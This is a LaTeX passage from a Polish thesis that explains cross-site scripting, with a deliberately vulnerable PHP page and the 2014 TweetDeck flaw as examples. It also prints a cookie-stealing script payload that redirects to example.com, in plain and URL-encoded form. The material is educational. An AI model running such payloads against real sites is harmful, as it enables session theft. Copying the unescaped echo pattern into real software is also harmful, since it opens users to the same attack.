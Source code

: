 \documentclass[11pt,a4paper,polish,thesis,oneside]{dcsbook}
\begin{document}
Wykonanie dowolnego kodu JavaScript po stronie przeglądarki ofiary może mieć następujące skutki:
\begin{itemize}
\item przejęcie sesji użytkownika lub innych danych przechowywanych w ciasteczkach,
\item podmiana zawartości strony internetowej (np. numerów kont bankowych do przelewu),
\item przekierowanie użytkownika na inną stronę,
\item pobranie złośliwego oprogramowania,
\item przesłanie zawartości strony (np. danych osobowych) na inny serwer.
\end{itemize}

\subsubsection*{Przykład}
Przykład \ref{xss1} zawiera kod strony podatnej na atak XSS. W ciasteczku przechowywana jest wartość \textit{secret=password}. Następnie na stronie wyświetla się napis \textit{Hello <var>}, gdzie \textit{var} to parametr przekazany w URL.

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod strony podatnej na XSS,label=xss1,numbers=left]
<?php

setcookie("secret", "password");
echo "<h1>Hello ".$_GET["name"]."</h1>";

?>
\end{lstlisting}

Przekazanie kodu \ref {xss2} w postaci parametru \textit{name} spowoduje wykonanie tego kodu po stronie przeglądarki. Efektem wywołania będzie przekierowanie użytkownika na adres internetowy z przekazaną zawartością ciasteczka w adresie URL.

\begin{lstlisting}[language=php,frame=single,caption=przykład wykorzystania podatności XSS,label=xss2,numbers=left]
<script>document.location="http://example.com/?c="+document.cookie;</script>

%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fexample.com%2F%3Fc%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E (wersja zakodowana)
\end{lstlisting}

W 2014 roku odkryto podatność aplikacji TweetDeck \cite{tweetdeck} (działającej jako rozszerzenie do przeglądarki Google Chrome), która oferowała interakcję z popularnym serwisem społecznościowym Twitter. Podatność polegała na renderowaniu treści tweeta z wykorzystaniem silnika interpretującego JavaScript i bez zamiany danych pobranych z API na encje.
\end{document}
